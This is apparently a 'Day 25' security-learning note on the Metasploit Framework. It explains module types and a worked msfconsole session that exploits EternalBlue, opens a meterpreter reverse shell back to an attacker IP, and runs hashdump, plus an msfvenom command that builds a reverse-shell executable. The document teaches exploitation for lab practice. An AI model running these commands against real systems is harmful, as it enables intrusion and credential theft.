

# Day 25 - Metasploit Framework

## What It Is
Metasploit is the most widely used open source exploitation framework in cybersecurity. It provides a massive library of exploits, payloads, and auxiliary modules that let security professionals find, exploit, and validate vulnerabilities in a structured way. Instead of writing exploit code from scratch every time, Metasploit gives you a ready-made framework where exploits, payloads, and post-exploitation tools all work together seamlessly.

## How It Works
Metasploit organizes everything into modules. The core workflow is search for a module, configure it, and run it.



```
Module Types:
- Exploits     - code that takes advantage of a specific vulnerability
- Payloads     - the code that runs after successful exploitation (e.g. meterpreter, day 20)
- Auxiliary    - scanning, fuzzing, and other supporting modules (not exploits themselves)
- Post         - post-exploitation modules (privilege escalation, day 08, credential dumping, day 17)
- Encoders     - obfuscate payloads to evade detection

Basic workflow:
```bash
# launch msfconsole
msfconsole

# search for a relevant exploit
search type:exploit platform:windows smb

# select the exploit
use exploit/windows/smb/ms17_010_eternalblue

# view required options
show options

# set target and payload
set RHOSTS 192.168.1.10
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5

# run the exploit
exploit

# once successful you get a meterpreter session (day 20)
sysinfo
getuid
hashdump
```

## Real-World Example
The 2017 WannaCry ransomware outbreak exploited the EternalBlue vulnerability (MS17-010) in Windows SMB — the exact module shown above. EternalBlue was originally an NSA developed exploit that was leaked publicly. Once it became a Metasploit module, it became trivially easy for anyone to weaponize, contributing to WannaCry infecting over 200,000 machines across 150 countries in days, including the UK's National Health Service which had to cancel surgeries and divert ambulances. This shows how a single well-known exploit, once automated in a framework, can cause global scale damage when systems aren't patched.

## Why It Matters
From an attacker's side, Metasploit dramatically lowers the barrier to entry for exploitation — thousands of working exploits are available with a simple search command, no need to develop exploits from scratch for known vulnerabilities.

From a defender's side, understanding Metasploit helps security teams validate their own patching and detection — running the same exploits against your own environment (with authorization) tells you exactly what an attacker could achieve. It's also why patch management is critical — if a vulnerability has a public Metasploit module, assume it will be actively exploited in the wild.

## Key Terms
- Module: a piece of functionality in Metasploit — exploit, payload, auxiliary, post, or encoder
- Meterpreter: Metasploit's advanced in-memory payload providing full post-exploitation capabilities (covered day 20)
- msfvenom: Metasploit's standalone payload generator for creating custom executables and shellcode
- RHOSTS / LHOST: target IP (RHOSTS) and attacker's listening IP (LHOST) — core options set before running an exploit
- Auxiliary Module: a module used for scanning, brute forcing, or information gathering rather than direct exploitation

## One Tip / Tool

Tool: `msfconsole` and `msfvenom` — both included in every Metasploit installation

```bash
# search modules by keyword
search eternalblue
search type:auxiliary scanner smb

# use msfvenom standalone to generate payloads (used in day 20 RATs)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o payload.exe

# list all payload formats available
msfvenom --list formats

# useful auxiliary modules for recon before exploitation
use auxiliary/scanner/portscan/tcp
use auxiliary/scanner/smb/smb_version
```

Practice Metasploit safely on **Metasploitable 2/3** — intentionally vulnerable virtual machines built specifically to practice every stage of the Metasploit workflow, from scanning to exploitation to post-exploitation, in a fully legal lab environment.
